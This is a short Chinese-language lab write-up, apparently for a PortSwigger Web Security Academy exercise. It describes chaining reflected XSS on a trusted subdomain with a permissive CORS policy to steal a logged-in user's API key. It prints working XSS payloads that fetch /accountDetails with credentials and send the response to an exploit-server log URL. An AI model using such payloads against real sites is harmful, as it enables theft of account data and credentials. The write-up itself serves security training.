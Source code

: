好怪的一道题，本地自己用户exp过了但是远程的却打不通，怀疑是环境问题，

原来CORS策略在生活中非常常见啊

先查看自己用户如何查看apiKey

![image-20240503140536761](C:/Users/86186/Desktop/write-up/BurpSuite/assets/image-20240503140536761.png)

之前xss那么好抽取信息是因为Access-Control-Allow-Origin: *

然后这个限制了子域名于是发现一个可以弹xss的域名（感觉高级一点的web漏洞都是连环攻击）

```
GET /?productId=<script>alert("666")</script>&storeId=1 HTTP/2
Host: stock.0ab3006a04bb7b6f803f037f003b003b.web-security-academy.net
```

然后构造exp即可

```js
  document.location="https://stock.0ab3006a04bb7b6f803f037f003b003b.web-security-academy.net/?productId=<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ab3006a04bb7b6f803f037f003b003b.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac2005a04167b01809f02a9015900da.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"

```

然后即可从log中获取apikey，这里只获取到了本地用户的，不知道为什么远程exp打不通

换了一个exp可以打通的

```
<script>
    document.location="http://stock.0ab3006a04bb7b6f803f037f003b003b.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ab3006a04bb7b6f803f037f003b003b.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0ac2005a04167b01809f02a9015900da.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>

```

太怪了就打通了一次后面就没有打通了